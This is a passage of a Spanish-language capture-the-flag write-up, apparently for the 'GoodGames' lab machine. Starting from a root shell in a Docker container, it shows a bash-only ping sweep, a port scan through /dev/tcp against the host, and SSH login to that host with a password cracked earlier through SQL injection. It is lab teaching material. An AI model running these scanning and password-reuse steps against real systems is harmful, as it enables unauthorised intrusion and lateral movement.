 ```
root@3a453ab39d3d:/home/augustus# mount | grep "/dev/"
devpts on /dev/pts type devpts (rw,nosuid,noexec,relatime,gid=5,mode=620,ptmxmode=666)
mqueue on /dev/mqueue type mqueue (rw,nosuid,nodev,noexec,relatime)
/dev/sda1 on /home/augustus type ext4 (rw,relatime,errors=remount-ro)
/dev/sda1 on /etc/resolv.conf type ext4 (rw,relatime,errors=remount-ro)
/dev/sda1 on /etc/hostname type ext4 (rw,relatime,errors=remount-ro)
/dev/sda1 on /etc/hosts type ext4 (rw,relatime,errors=remount-ro)
shm on /dev/shm type tmpfs (rw,nosuid,nodev,noexec,relatime,size=65536k)
```

La enumeración de los adaptadores de la red indican que la IP interna del contenedor es `172.19.0.2`. Normalmente, docker suele asginar la primera dirección IP de la subnet al sistema host en las configuraciones por defecto. Por lo tanto, si la la dirección IP interna del contenedor es `172.19.0.2` la dirección IP de la subnet asignada directamente al host debería de ser `172.19.0.1`.

Para asegurarnos de que es cierto hacemos un `ping sweep`:

```
root@3a453ab39d3d:/home/augustus# for i in {1..254}; do (ping -c 1 172.19.0.${i} | grep "bytes from" | grep -v "Unreachable" &); done;
64 bytes from 172.19.0.1: icmp_seq=1 ttl=64 time=0.100 ms
64 bytes from 172.19.0.2: icmp_seq=1 ttl=64 time=0.027 ms
```

Entonces, podemos escanear la dirección IP `172.19.0.1` para tratar de realizar un movimiento lateral en base a los puertos abiertos encontrados

```
root@3a453ab39d3d:/home/augustus# for port in {1..65535}; do echo > /dev/tcp/172.19.0.1/$port && echo "$port open"; done 2>/dev/null
22 open
80 open
```

La forma en la que se realiza el escaneo y el ping, es utilizando el propio bash, esto es muy útil ya que normalmente en entornos de producción no dispondremos de herramientas que permitan escanear la red.

Sabiendo que tenemos el puerto 22 abierto, podemos hacer una reutilización de contraseña, la misma que crackeamos gracias a la inyección SQL:

```
root@3a453ab39d3d:/home/augustus# ssh augustus@172.19.0.1
The authenticity of host '172.19.0.1 (172.19.0.1)' can't be established.
ECDSA key fingerprint is SHA256:AvB4qtTxSVcB0PuHwoPV42/LAJ9TlyPVbd7G6Igzmj0.
Are you sure you want to continue connecting (yes/no)? yes
Warning: Permanently added '172.19.0.1' (ECDSA) to the list of known hosts.
augustus@172.19.0.1's password: 
Linux GoodGames 4.19.0-18-amd64 #1 SMP Debian 4.19.208-1 (2021-09-29) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
augustus@GoodGames:~$
```
